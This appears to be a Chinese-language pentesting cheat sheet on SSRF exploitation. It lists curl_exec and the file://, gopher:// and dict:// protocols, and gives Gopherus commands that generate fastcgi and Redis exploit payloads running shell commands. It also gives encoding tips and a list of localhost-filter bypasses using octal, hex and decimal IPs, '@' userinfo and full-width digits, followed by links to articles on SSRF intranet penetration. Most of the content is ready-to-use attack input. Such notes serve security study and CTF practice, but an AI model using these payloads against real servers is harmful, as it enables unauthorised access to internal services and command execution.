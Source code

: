 涉及函数

```php
curl_exec() curl_exec函数⽤于执⾏指定的cURL会话。
```

## 涉及协议

```bash
file://
gopher://     #gopher://<host>:<port>/<gopher-path>
dict:// # dict://127.0.0.1:6379 //探测redis是否存活
```

## gopher
[gopher协议的利用](https://mp.weixin.qq.com/s/lVzMSXn42SjTPb5EnY8NgA)

如果 redis 有验证用 `gophper-redis-auth.py`

```sh
python2 gopherus.py --exploit fastcgi
参数1： /var/www/html/index.php
参数2cmd: ls
python2 gopherus.py --exploit redis
参数1： php
参数2cmd: ls
```

- 生成的 payload 再次 url 编码,
- encode all special chars (Cyberchef) 再使用

## 127.0.0.1 绕过

```bash
url=http://xxx@127.0.0.1
1②7.0.0.1
127。 0。 0。 1
127.1
0177.0.0.1 //⼋进制
0x7f.0.0.1 //⼗六进制
2130706433 //⼗进制
url=http://0/flag.php
0.0.0.0
```

# Article

[实战 | 利用SSRF渗透内网主机-下](https://mp.weixin.qq.com/s/oq7IC6Av4_fY7HBxH-8p0Q)
[实战 | 利用SSRF渗透内网主机-中](https://mp.weixin.qq.com/s/bEhNuMJpI5y9fj5RGzYhXA)
[实战 | 利用SSRF渗透内网主机-上](https://mp.weixin.qq.com/s/zmOLO3ilJdSl02s6aWLpXw)
